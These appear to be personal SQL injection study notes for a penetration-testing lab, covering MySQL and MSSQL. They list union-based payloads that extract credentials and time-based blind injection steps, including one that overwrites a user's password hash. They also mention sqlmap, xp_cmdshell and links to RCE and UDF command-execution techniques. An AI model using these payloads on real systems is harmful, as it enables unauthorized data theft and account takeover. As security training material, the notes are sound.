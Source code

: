# SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info
    ``` database(), user(), @@version ```

- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    ![alt text](image.png)

    example: ```table = offsec.dbo.users```

- running mssql client in window box (local host) ``` sqlcmd -U {username} -P {password} -Q {query} ```

# Manual SQL exploit

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds
 
# Yes or no  (Time based)
- If condition correct will have delay e.g. ``` '; IF (1=2) WAITFOR DELAY '0:0:10';--  ```
- Using Count () = 1 to determine if have result return!
1. Check user table exist? 
   - MYSQL ``` select count(name) from sys.tables where name = 'users'  ```
   - MSSQL ``` SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = DATABASE() AND table_name = 'users'; ```
2. Check column name 'user' in table 'users' ? 
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'user'  ``` 
   - MYSQL ``` SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = 'your_database_name' AND table_name = 'users' AND column_name = 'user'; ```
3. Check col name 'password' exist? --> if no clue then can use % character , then 1 letter by 1 letter test it e.g. now test pass% success then try passw%. To guess the result
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'pass%'``` 
4. Stop testing until no more delay e.g. if ans = password_hash, password_hash% wont have delay!
5. Determine total columns 
   - MSSQL ``` (select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' )>3 ```
   - MYSQL ``` SELECT COUNT(*) > 3 FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users'; ```
6. Guess Username ( can use A% / B% / etc... to guess)
   - MSSQL ``` (select count(username) from users where username = 'butch')=1 ```
   - MYSQL ``` SELECT COUNT(*) = 1 FROM users WHERE username = 'butch'; ```
7. Update the password 
   - MSSQL ``` update users set password_hash = 'tacos123' where username = 'butch' ```
   - MYSQL ``` UPDATE users SET password_hash = 'tacos123' WHERE username = 'butch';```
8. Validate if can update!
9. Sometime not working caz those password is hashed and not match the application when check 
    ``` 
        echo -n 'tacos123' | md5sum
        echo -n 'tacos123' | sha1sum
        echo -n 'tacos123' | sha256sum 
    ```

# SQL Shellcode excution
## Manual shell
![alt text](image-1.png)

## Postgres RCE
- https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py


## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```

# MSSQL
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-blind-based 
- UNC Path useful

## Useful command
1. xp_cmdshell

# UDF (user definded function) command execution
- Check version if vuln this | Can work with SQLi 
- https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-udf-command-execution ![alt text](image-2.png)